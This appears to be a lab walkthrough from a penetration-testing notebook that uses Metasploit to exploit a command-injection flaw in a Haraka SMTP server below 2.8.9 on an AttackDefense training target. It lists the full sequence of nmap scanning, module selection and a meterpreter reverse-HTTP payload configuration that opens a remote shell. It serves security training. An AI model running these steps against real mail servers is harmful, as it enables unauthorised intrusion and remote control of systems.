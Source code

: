 # 🔬SMTP - MSF Exploit

## Lab 1

>  🔬 [Vulnerable SMTP Server](https://www.attackdefense.com/challengedetails?cid=715)
>
>  - Target IP: `192.109.36.3`
>  - Exploit the target with the appropriate Metasploit Framework module
>  - [Haraka < 2.8.9 - Remote Command Execution](https://www.exploit-db.com/exploits/41162)

```bash
ip -br -c a
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.109.36.3
setg RHOST 192.109.36.3
workspace -a SMTP_haraka
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sV -O 192.109.36.3
```

![db_nmap -sV -O 192.109.36.3](.gitbook/assets/image-20230416143927400.png)

```bash
search libssh_auth_bypass
use exploit/linux/smtp/haraka
info
# Description:
#   The Haraka SMTP server comes with a plugin for processing 
#   attachments. Versions before 2.8.9 can be vulnerable to command 
#   injection
options
set SRVPORT 9898
set email_to root@attackdefense.test
set payload linux/x64/meterpreter_reverse_http
set LHOST eth1
set LPORT 8080
run

# This is a NON-staged payload
```

![Metasploit - exploit/linux/smtp/haraka](.gitbook/assets/image-20230416144316805.png)

------

